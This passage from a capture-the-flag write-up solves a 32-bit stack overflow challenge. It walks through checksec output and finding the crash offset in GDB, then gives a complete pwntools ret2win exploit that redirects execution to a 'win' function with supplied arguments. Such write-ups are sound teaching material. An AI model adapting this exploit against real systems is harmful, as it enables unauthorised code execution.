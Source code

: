 ```c
    return 0; 
} 
```

Again, 32 bit, no PIE:

```
$ checksec pwnme
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Using GDB i find at what offset the crash happens, this time its at offset 36:

```bash
Level 3: Args too?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA
Stopped reason: SIGSEGV
0x61414145 in ?? ()
gdb-peda$ pattern_offset 0x61414145
1631666501 found at offset: 36
```

So I can craft another `ret2win` exploit, this time I need to provide an argument to the function, which in 32 bit x86 is provided via the stack. So this is straightforward:

```python
from pwn import *

local = True
binary_name = './pwnme'
win_func = 'win'

binary = context.binary = ELF(binary_name)

if local:
    p = process(binary_name)
else:
    p = remote('0.cloud.chals.io',28949)

offset = 36

rop = ROP(binary)
rop.raw(b"A" * offset)
rop.raw(p32(binary.sym[win_func]))
rop.raw(p32(0xdeadbeef)*2)
p.sendline(rop.chain())
p.interactive()
```

#### <a name="pwn4"></a>Intro to PWN 4 - PWN - 111 points
